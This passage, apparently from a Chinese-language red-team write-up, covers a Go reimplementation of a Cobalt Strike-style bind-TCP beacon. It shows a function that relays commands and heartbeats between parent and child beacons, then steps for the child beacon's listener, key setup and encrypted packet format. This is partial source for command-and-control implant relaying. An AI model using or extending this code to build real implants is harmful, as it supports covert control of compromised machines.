     
    func BeaconLive(cmdBuf []byte)  {    childBID := binary.BigEndian.Uint32(cmdBuf)    value,ok := config.Connects.Load(childBID)    if ok{        childBeacon,ok := value.(config.ChildBeacon)        if ok{            childConn := childBeacon.ChildConn            if len(cmdBuf) == 4{                packet.WriteData(childConn, nil)            }else {                packet.WriteData(childConn, cmdBuf[4:])            }  
                data,err := packet.ReadData(childConn)            if err!= nil{                if err.Error() == "EOF"{                    Unlink(cmdBuf[:4])                }else {                    finalPacket := packet.MakePacket(13,[]byte(err.Error()))                    packet.WriteData(config.ParentConn,finalPacket)                }            }else if data == nil { //心跳成功返回                childBIDBytes := util.Uint32ToBytes(childBID)                finalPacket := packet.MakePacket(12,childBIDBytes) //返回数据到上一层时添加子beaconid                packet.WriteData(config.ParentConn, finalPacket)            } else {                childBIDBytes := util.Uint32ToBytes(childBID)                endData := util.BytesCombine(childBIDBytes, data)//返回数据到上一层时添加子beaconid                finalPacket := packet.MakePacket(12,endData)                packet.WriteData(config.ParentConn, finalPacket)            }        }    }}

  

  

 **0x04 跨平台的bindtcp Beacon**

  

根据上面的分析，我们总结出bindtcp流程如下：

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220218134523.png)

  

 **4.1 子beacon的任务过程**

  

1\. 子beacon新建监听，初始化全局变量，比如：beaconid、AES key和HashMac等；然后等待父beacon连接。

  

2\.
建立连接之后，子beacon获取源数据组包，并使用公钥加密，然后封包小端beaconid，最后使用自定义的tcp封包格式（长度包+数据包）发往父beacon。

  

